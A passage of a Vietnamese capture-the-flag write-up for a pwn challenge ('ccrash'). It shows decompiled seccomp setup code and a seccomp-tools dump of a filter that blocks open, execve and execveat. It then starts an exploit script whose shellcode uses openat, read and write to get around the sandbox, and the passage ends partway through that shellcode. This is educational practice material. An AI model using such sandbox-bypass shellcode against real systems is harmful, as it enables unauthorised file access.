 ```c
    {
      if ( (int)seccomp_load(ctx) < 0 )
      {
        perror("seccomp_load failed");
        seccomp_release(ctx);
      }
    }
    else
    {
      perror("seccomp_rule_add (open) failed");
      seccomp_release(ctx);
    }
  }
  else
  {
    perror("seccomp_init failed");
  }
}
```

- ta có thể dùng ```seccomp-tools``` để check : 

ở đây nó filter ```open , execve , execveat``` vì vậy còn rất nhiều các syscall khác có thể hoạt động

```c
ploi@PhuocLoiiiii:~/pwn/KCSC_Recruitment/ccrash/ccrash$ seccomp-tools dump ./main
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x08 0xc000003e  if (A != ARCH_X86_64) goto 0010
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x05 0xffffffff  if (A != 0xffffffff) goto 0010
 0005: 0x15 0x03 0x00 0x00000002  if (A == open) goto 0009
 0006: 0x15 0x02 0x00 0x0000003b  if (A == execve) goto 0009
 0007: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0009
 0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0009: 0x06 0x00 0x00 0x00050001  return ERRNO(1)
 0010: 0x06 0x00 0x00 0x00000000  return KILL
```

- ta sẽ dùng ```openat``` + ```read``` + ```write``` ở bài này và vì có địa chỉ stack nên đây sẽ là 1 bài ret2shellcode: 

exp: 

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./main',checksec=False)
context.arch = 'amd64'

p = process()

sc = asm('''
         mov rdi,-100
         push 29816
         movabs r9,8371742425456455470
         push r9
         xor rsi,rsi
         xor rdx,rdx
         xor r10,r10
         mov rsi,rsp
```